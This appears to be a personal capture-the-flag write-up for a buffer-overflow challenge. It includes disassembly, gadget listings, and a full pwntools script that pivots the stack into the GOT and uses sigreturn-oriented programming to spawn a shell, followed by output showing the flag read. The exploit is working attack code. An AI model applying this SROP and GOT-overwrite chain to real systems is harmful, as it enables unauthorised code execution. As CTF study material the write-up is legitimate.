









# challenge 1

# flag

`test{flag}`


- we are given a dockerfile and an ELF file.


```bash
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2/rvy3r1$ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e65c339bd9c9dcded3af3b5a8fd62f166351edd5, for GNU/Linux 3.2.0, not stripped
```

- 64-bit ELF which is not stripped so lets decompile and see whats going on.

### Decompiled code
```c
#include "out.h"


int _init(EVP_PKEY_CTX *ctx)

{
  int iVar1;
  
  iVar1 = __gmon_start__();
  return iVar1;
}


void FUN_00401020(void)

{
  (*(code *)(undefined *)0x0)();
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

int puts(char *__s)

{
  int iVar1;
  
  iVar1 = puts(__s);
  return iVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

void setbuf(FILE *__stream,char *__buf)

{
  setbuf(__stream,__buf);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

uint alarm(uint __seconds)

{
  uint uVar1;
  
  uVar1 = alarm(__seconds);
  return uVar1;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked

ssize_t read(int __fd,void *__buf,size_t __nbytes)

{
  ssize_t sVar1;
  
  sVar1 = read(__fd,__buf,__nbytes);
  return sVar1;
}


void processEntry _start(undefined8 param_1,undefined8 param_2)

{
  undefined1 auStack_8 [8];
  
  __libc_start_main(main,param_2,&stack0x00000008,0,0,param_1,auStack_8);
  do {
                    // WARNING: Do nothing block with infinite loop
  } while( true );
}


void _dl_relocate_static_pie(void)

{
  return;
}


// WARNING: Removing unreachable block (ram,0x004010fd)
// WARNING: Removing unreachable block (ram,0x00401107)

void deregister_tm_clones(void)

{
  return;
}


// WARNING: Removing unreachable block (ram,0x0040113f)
// WARNING: Removing unreachable block (ram,0x00401149)

void register_tm_clones(void)

{
  return;
}


void __do_global_dtors_aux(void)

{
  if (completed_0 == '\0') {
    deregister_tm_clones();
    completed_0 = 1;
    return;
  }
  return;
}


void frame_dummy(void)

{
  register_tm_clones();
  return;
}


void __constructor__(void)

{
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  alarm(0x10);
  return;
}


undefined8 __fini(void)

{
  undefined8 unaff_RBP;
  
  return unaff_RBP;
}


undefined8 main(void)

{
  undefined1 local_88 [128]; // 128 byteuffer
  
  puts(&DAT_00402008);
  read(0,local_88,1000); // reading 1k bytes
  return 0; // returning to 0 and no win function so we have to use rop or ret2libc or something
}


void _fini(void)

{
  return;
}

```

### objdump 


```s

main:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:	48 83 ec 08          	sub    rsp,0x8
  401004:	48 8b 05 d5 2f 00 00 	mov    rax,QWORD PTR [rip+0x2fd5]        # 403fe0 <__gmon_start__@Base>
  40100b:	48 85 c0             	test   rax,rax
  40100e:	74 02                	je     401012 <_init+0x12>
  401010:	ff d0                	call   rax
  401012:	48 83 c4 08          	add    rsp,0x8
  401016:	c3                   	ret

Disassembly of section .plt:

0000000000401020 <setbuf@plt-0x10>:
  401020:	ff 35 ca 2f 00 00    	push   QWORD PTR [rip+0x2fca]        # 403ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  401026:	ff 25 cc 2f 00 00    	jmp    QWORD PTR [rip+0x2fcc]        # 403ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40102c:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

0000000000401030 <setbuf@plt>:
  401030:	ff 25 ca 2f 00 00    	jmp    QWORD PTR [rip+0x2fca]        # 404000 <setbuf@GLIBC_2.2.5>
  401036:	68 00 00 00 00       	push   0x0
  40103b:	e9 e0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401040 <alarm@plt>:
  401040:	ff 25 c2 2f 00 00    	jmp    QWORD PTR [rip+0x2fc2]        # 404008 <alarm@GLIBC_2.2.5>
  401046:	68 01 00 00 00       	push   0x1
  40104b:	e9 d0 ff ff ff       	jmp    401020 <_init+0x20>

0000000000401050 <read@plt>:
  401050:	ff 25 ba 2f 00 00    	jmp    QWORD PTR [rip+0x2fba]        # 404010 <read@GLIBC_2.2.5>
  401056:	68 02 00 00 00       	push   0x2
  40105b:	e9 c0 ff ff ff       	jmp    401020 <_init+0x20>

Disassembly of section .text:

0000000000401060 <_start>:
  401060:	31 ed                	xor    ebp,ebp
  401062:	49 89 d1             	mov    r9,rdx
  401065:	5e                   	pop    rsi
  401066:	48 89 e2             	mov    rdx,rsp
  401069:	48 83 e4 f0          	and    rsp,0xfffffffffffffff0
  40106d:	50                   	push   rax
  40106e:	54                   	push   rsp
  40106f:	45 31 c0             	xor    r8d,r8d
  401072:	31 c9                	xor    ecx,ecx
  401074:	48 c7 c7 83 11 40 00 	mov    rdi,0x401183
  40107b:	ff 15 57 2f 00 00    	call   QWORD PTR [rip+0x2f57]        # 403fd8 <__libc_start_main@GLIBC_2.34>
  401081:	f4                   	hlt
  401082:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  401089:	00 00 00 
  40108c:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

0000000000401090 <_dl_relocate_static_pie>:
  401090:	c3                   	ret
  401091:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  401098:	00 00 00 
  40109b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]

00000000004010a0 <deregister_tm_clones>:
  4010a0:	b8 28 40 40 00       	mov    eax,0x404028
  4010a5:	48 3d 28 40 40 00    	cmp    rax,0x404028
  4010ab:	74 13                	je     4010c0 <deregister_tm_clones+0x20>
  4010ad:	b8 00 00 00 00       	mov    eax,0x0
  4010b2:	48 85 c0             	test   rax,rax
  4010b5:	74 09                	je     4010c0 <deregister_tm_clones+0x20>
  4010b7:	bf 28 40 40 00       	mov    edi,0x404028
  4010bc:	ff e0                	jmp    rax
  4010be:	66 90                	xchg   ax,ax
  4010c0:	c3                   	ret
  4010c1:	66 66 2e 0f 1f 84 00 	data16 cs nop WORD PTR [rax+rax*1+0x0]
  4010c8:	00 00 00 00 
  4010cc:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

00000000004010d0 <register_tm_clones>:
  4010d0:	be 28 40 40 00       	mov    esi,0x404028
  4010d5:	48 81 ee 28 40 40 00 	sub    rsi,0x404028
  4010dc:	48 89 f0             	mov    rax,rsi
  4010df:	48 c1 ee 3f          	shr    rsi,0x3f
  4010e3:	48 c1 f8 03          	sar    rax,0x3
  4010e7:	48 01 c6             	add    rsi,rax
  4010ea:	48 d1 fe             	sar    rsi,1
  4010ed:	74 11                	je     401100 <register_tm_clones+0x30>
  4010ef:	b8 00 00 00 00       	mov    eax,0x0
  4010f4:	48 85 c0             	test   rax,rax
  4010f7:	74 07                	je     401100 <register_tm_clones+0x30>
  4010f9:	bf 28 40 40 00       	mov    edi,0x404028
  4010fe:	ff e0                	jmp    rax
  401100:	c3                   	ret
  401101:	66 66 2e 0f 1f 84 00 	data16 cs nop WORD PTR [rax+rax*1+0x0]
  401108:	00 00 00 00 
  40110c:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

0000000000401110 <__do_global_dtors_aux>:
  401110:	f3 0f 1e fa          	endbr64
  401114:	80 3d 2d 2f 00 00 00 	cmp    BYTE PTR [rip+0x2f2d],0x0        # 404048 <completed.0>
  40111b:	75 13                	jne    401130 <__do_global_dtors_aux+0x20>
  40111d:	55                   	push   rbp
  40111e:	48 89 e5             	mov    rbp,rsp
  401121:	e8 7a ff ff ff       	call   4010a0 <deregister_tm_clones>
  401126:	c6 05 1b 2f 00 00 01 	mov    BYTE PTR [rip+0x2f1b],0x1        # 404048 <completed.0>
  40112d:	5d                   	pop    rbp
  40112e:	c3                   	ret
  40112f:	90                   	nop
  401130:	c3                   	ret
  401131:	66 66 2e 0f 1f 84 00 	data16 cs nop WORD PTR [rax+rax*1+0x0]
  401138:	00 00 00 00 
  40113c:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

0000000000401140 <frame_dummy>:
  401140:	f3 0f 1e fa          	endbr64
  401144:	eb 8a                	jmp    4010d0 <register_tm_clones>

0000000000401146 <setup>:
  401146:	55                   	push   rbp
  401147:	48 89 e5             	mov    rbp,rsp
  40114a:	48 8b 05 ef 2e 00 00 	mov    rax,QWORD PTR [rip+0x2eef]        # 404040 <stdin@GLIBC_2.2.5>
  401151:	be 00 00 00 00       	mov    esi,0x0
  401156:	48 89 c7             	mov    rdi,rax
  401159:	e8 d2 fe ff ff       	call   401030 <setbuf@plt>
  40115e:	48 8b 05 cb 2e 00 00 	mov    rax,QWORD PTR [rip+0x2ecb]        # 404030 <stdout@GLIBC_2.2.5>
  401165:	be 00 00 00 00       	mov    esi,0x0
  40116a:	48 89 c7             	mov    rdi,rax
  40116d:	e8 be fe ff ff       	call   401030 <setbuf@plt>
  401172:	90                   	nop
  401173:	5d                   	pop    rbp
  401174:	c3                   	ret

0000000000401175 <gadgets>:
  401175:	55                   	push   rbp
  401176:	48 89 e5             	mov    rbp,rsp
  401179:	49 c7 c4 0f 05 00 00 	mov    r12,0x50f
  401180:	90                   	nop
  401181:	5d                   	pop    rbp
  401182:	c3                   	ret

0000000000401183 <main>:
  401183:	55                   	push   rbp
  401184:	48 89 e5             	mov    rbp,rsp
  401187:	48 81 ec 00 01 00 00 	sub    rsp,0x100
  40118e:	b8 00 00 00 00       	mov    eax,0x0
  401193:	e8 ae ff ff ff       	call   401146 <setup>
  401198:	bf 3c 00 00 00       	mov    edi,0x3c
  40119d:	e8 9e fe ff ff       	call   401040 <alarm@plt>
  4011a2:	48 8d 85 00 ff ff ff 	lea    rax,[rbp-0x100]
  4011a9:	ba 10 01 00 00       	mov    edx,0x110
  4011ae:	48 89 c6             	mov    rsi,rax
  4011b1:	bf 00 00 00 00       	mov    edi,0x0
  4011b6:	e8 95 fe ff ff       	call   401050 <read@plt>
  4011bb:	b8 00 00 00 00       	mov    eax,0x0
  4011c0:	c9                   	leave
  4011c1:	c3                   	ret

Disassembly of section .fini:

00000000004011c4 <_fini>:
  4011c4:	48 83 ec 08          	sub    rsp,0x8
  4011c8:	48 83 c4 08          	add    rsp,0x8
  4011cc:	c3                   	ret

```


### ropgadgets 


```bash
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2/rvy3r1$ ROPgadget --binary main
Gadgets information
============================================================
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004011bc : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x0000000000401088 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x00000000004011bd : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040112a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x00000000004011be : add byte ptr [rax], al ; leave ; ret
0x000000000040117e : add byte ptr [rax], al ; nop ; pop rbp ; ret
0x000000000040108a : add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401009 : add byte ptr [rax], al ; test rax, rax ; je 0x401012 ; call rax
0x000000000040112b : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011bf : add cl, cl ; ret
0x00000000004010ba : add dil, dil ; loopne 0x401125 ; nop ; ret
0x0000000000401047 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040112c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401127 : add eax, 0x2f1b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040117d : add eax, 0x5d900000 ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x0000000000401171 : call qword ptr [rax + 0x4855c35d]
0x0000000000401010 : call rax
0x0000000000401143 : cli ; jmp 0x4010d0
0x0000000000401140 : endbr64 ; jmp 0x4010d0
0x000000000040100e : je 0x401012 ; call rax
0x00000000004010b5 : je 0x4010c0 ; mov edi, 0x404028 ; jmp rax
0x00000000004010f7 : je 0x401100 ; mov edi, 0x404028 ; jmp rax
0x000000000040103b : jmp 0x401020
0x0000000000401144 : jmp 0x4010d0
0x00000000004010bc : jmp rax
0x00000000004011c0 : leave ; ret
0x00000000004010bd : loopne 0x401125 ; nop ; ret
0x0000000000401126 : mov byte ptr [rip + 0x2f1b], 1 ; pop rbp ; ret
0x00000000004011bb : mov eax, 0 ; leave ; ret
0x00000000004010b7 : mov edi, 0x404028 ; jmp rax
0x0000000000401052 : mov edx, 0x6800002f ; add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040116e : mov esi, 0x90fffffe ; pop rbp ; ret
0x000000000040117a : mov esp, 0x50f ; nop ; pop rbp ; ret
0x0000000000401179 : mov r12, 0x50f ; nop ; pop rbp ; ret
0x0000000000401172 : nop ; pop rbp ; ret
0x00000000004010bf : nop ; ret
0x000000000040113c : nop dword ptr [rax] ; endbr64 ; jmp 0x4010d0
0x000000000040108c : nop dword ptr [rax] ; ret
0x00000000004010b6 : or dword ptr [rdi + 0x404028], edi ; jmp rax
0x000000000040112d : pop rbp ; ret
0x0000000000401036 : push 0 ; jmp 0x401020
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401161 : retf
0x0000000000401022 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401128 : sbb ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010b8 : sub byte ptr [rax + 0x40], al ; add bh, bh ; loopne 0x401125 ; nop ; ret
0x00000000004011c5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004011c4 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040117c : syscall
0x000000000040100c : test eax, eax ; je 0x401012 ; call rax
0x00000000004010b3 : test eax, eax ; je 0x4010c0 ; mov edi, 0x404028 ; jmp rax
0x00000000004010f5 : test eax, eax ; je 0x401100 ; mov edi, 0x404028 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401012 ; call rax

Unique gadgets found: 66
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2/rvy3r1$
```


- We have a lot of gadgets, but no pop rdi or pop rax, we have a syscall that can be useful
- and also leave; ret which might be useful

- since we arent given libc im assuming its not ret2libc and also i dont see any vector for libc leak.

- `pop rbp` can be used to set rbp.

### SROP


- we have 0x100 buffer and 0x110 read which gives us 16 bytes of leeway which isnt much for ROP and we dont have the necessary gadgets to chain a /bin/sh syscall even with the syscall gadet.

- since we have `pop rbp`, SROP from v1t ctf chall comes to mind where we point rbp to bss and do the `lea 256` again to setup a sigret frame with rax = 15 and when rip to this frame and then execute our syscall.

- lets try implementing this as its a do or die situation and im not able to think of any other method to solve this challenge.

- took me like 7 hours to map the whole binary and write a somewhat working local script.

- ill try to explain as much as possible from my knowledge on solving wakeupcall from v1tCTF

# Solve script for local

```py
from pwn import *

context.binary = elf = ELF('./main')
context.arch = 'amd64'


context.terminal = ['tmux', 'splitw', '-h']

syscall        = 0x40117c       
setup_partial  = 0x40114a       
main_read_loop = 0x4011a2       


# We pivot to 0x404100 this is the 
# Stage 2 writes to 0x404100. 
# Stage 3 writes to 0x404000.

binsh_addr = 0x404008  # Overwriting alarm@got
argv_addr  = 0x404010  # Overwriting read@got
frame_loc  = 0x404100  # Location for  2nd write


frame = SigreturnFrame()
frame.rip = syscall             # execve
frame.rax = 59                  # 59
frame.rdi = binsh_addr          # /bin/sh
frame.rsi = argv_addr           # argv pointer
frame.rdx = 0                   
#  0x404200 for stack. 
# this is  usable because we  used it for RBP 
frame.rsp = 0x404200           
frame.csgsfs = 0x002b000000000033


# Pivot RBP to 0x404200 which is our frameloc+0x100
# The next read will write to RBP-0x100 = 0x404100. same thing used in v1tctf wakeup call.
p1 = flat({
    256: frame_loc + 0x100,     # rbp
    264: main_read_loop         # rip
})


# Writes to 0x404100.
# We place the SROP frame body starting at Offset 16 Address 0x404110
# This preserves it from the Stage 3 write which stops at 0x404110
p2 = flat({
    16:  bytes(frame)[8:],      # Frame bodystarts at 0x404110
    256: 0x404100,              # Saved RBP for Stage 3 target 0x404000
    264: main_read_loop         # Saved RIP
}, length=0x110)


# Writes to 0x404000 Calculated from RBP=0x404100
# Length 0x110 Ends at 0x404110 which doesnt overwrite the srop frame at 0x404110
p3 = flat({
    0:   syscall,               # 0x404000 setbuf@GOT is changed to syscall
    8:   b"/bin/sh\x00",        # 0x404008
    16:  p64(binsh_addr),       # 0x404010 argv[0] can also be NULL i think
    24:  p64(0),                # 0x404018 argv[1]
    64:  15,                    # 0x404040  15 RAX
    256: frame_loc,             # 0x404100 rbp 
    264: setup_partial          # 0x404108 rip 
}, length=0x110)


p = process('./main')
# p = remote('target_ip', port)

if args.GDB:
    gdbscript = '''
    set logging enabled on\n
    b *0x40117c
    c
    
    echo \\n 1st stop at syscall\\n
    i r rsp
    x/gx $rsp+8
    
    echo \\nExecve\\n
    ni
    
    echo \\nafter EXECVE\\n
    x/s $rdi
    x/gx $rsi
    i r rsp
    
    echo \\nthis shld give us shell hopefully\\n
    c
    '''
    gdb.attach(p, gdbscript=gdbscript)

log.info("Pivot 0x404200")
p.send(p1)


log.info("Write Frame at 0x404110, s2 sending")
p.send(p2)


log.info("sending syscall after sig returns, s3 sending")
p.send(p3)
log.info("pwned")
p.interactive()

```

 
- syscall we get from ROPgadget.
- main read loop is the lea read inst which read 0x110
- setup partial = `40114a:	48 8b 05 ef 2e 00 00 	mov    rax,QWORD PTR [rip+0x2eef]`

- which is a gadget that loads RAX from memory and calls a GOT entry, which we abuse to trigger sigreturn.

- how does it set rax? 
  - we are moving into rax rip+0x2eef which resolves to 0x404040 which is stdin in GOT and in the 3rd payload we can write the syscall number for rt_sigreturn.


  -  we are overwriting some of the GOT since writing into bss kept giving me errors.
  -  frame_loc is the bss area
  

 - standard frame for u_context when we run the sig_ret syscall. setup of the registry.
  - One notable thing is our ss register kept getting set to 3 for some reason which caused kernel regecting the u_context and the syscall failing so i manually set the csgsfs regs which seemed to fix it which is weird since SigreturnFrame() generally just sets it to the correct defaults if we dont set it manually. but its prolly due to some truncation issue in  the sig frame since we only have 8+8 bytes reserve.

  - so we set frame.csgsfs to defaults.


#### payloads 

```python
p1 = flat({
    256: frame_loc + 0x100,     # rbp
    264: main_read_loop         # rip
})
```

This overwrites the Saved RBP on the current stack.
When main executes leave, RSP becomes 0x404200.
It jumps to main_read_loop. The instruction lea rax, [rbp-0x100] calculates 0x404200 - 0x100 = 0x404100.
Result =  The next read writes data to 0x404100.



in p2 We are writing to 0x404100.
Offset 16 We write the SROP frame minus the first 8 bytes here. This places the frame body exactly at 0x404110.
Why? Because later when sigreturn triggers the stack pointer will be 0x404108. The CPU expects the frame body at RSP+8 = 0x404110.
Offset 256: Set RBP to 0x404100.
Result = main calculates read destination as 0x404100 - 0x100 = 0x404000. The next read writes to the GOT.

now in p3 We are writing to 0x404000.
0x404000: We overwrite setbuf in the GOT with the address of the syscall gadget.
0x404040: We overwrite stdin with 15.
0x404108: We return to setup.
Note -  write is 272 bytes =  0x110. It writes from 0x404000 up to 0x404110. This touches the boundary of our SROP frame and doesnt overwrite.

- redo the calc for practise

### overview of whats happening in my own words for future refs


- we pop rbp and place the bss addresss and overwrite rip to lea read which reads data into bss and then we can place our frame here so that when we call sig_ret the rsp points to the start of our new stack and u_context ingests the register values and calls the syscall. but to call this sig_ret we need rax = 15 which is only possible if we can pop rax but in setup func there is mov rax, stdin@got which we can use to setup the rax == 15 then we overwrite next got bytes with syscall, /bin/sh and then ret.

- so basically when the leave call excetues after our two reads the binary jumps to setup sets rax as 15 and then syscalls basically changing u_context to our frame which then sees rax = execve and rdi = /bin/sh and thus runs and then boom we have RCE.

now lets test in the dockerfile.

- all the code after the p3 is debugging and basic BINEX so i wont elaborate.

- Proof of rce : 

```py
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2/rvy3r1$ python3 r13.py
[*] '/mnt/c/CTFSTuff/STP-2/rvy3r1/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process './main': pid 3694
[*] Pivot 0x404200
[*] Write Frame at 0x404110, s2 sending
[*] sending syscall after sig returns, s3 sending
[*] pwned
[*] Switching to interactive mode
$ ls
Dockerfile  core.3530  flag.txt  libc.so.6  main.i64
a.s         dec.c      gdb.txt   main       r13.py
$ cat flag.txt
test{flag}
$
[6] 0:python3*                                                                                                                                                                           "Satwik" 11:48 10-Dec-2
```





# Test in remote : 


- just change 
 ```
 
p = process('./main')
# p = remote('target_ip', port)

```
 
 to 

```

# p = process('./main')
p = remote('target_ip', port)

```


## Docker build commands 

```bash
sudo docker build -t srop_challenge .


sudo docker run -d -p 1337:5000 --privileged --name srop_instance srop_challenge

```




- setup a tcp dump 



now lets send our script on :
`p = remote('127.0.0.1', 1337)`   

- It works also in remote : 




tcp dump when we made the request to our remote : 





- its pointless since i cant scroll up to see the AAAAAAAAA text (tmux :<) but there we go.

- this SROP challenge is done.

- thing to note is that frame.csfsgs might get overwritten so its better set the default ourselves.

- also the thing to check if we are stuck and everything seems to be correct every register is correct and yet the syscall fails.

# Resources used


- pwn.college - Assembly crashcourse
- my won v1tctf SROP writeup.
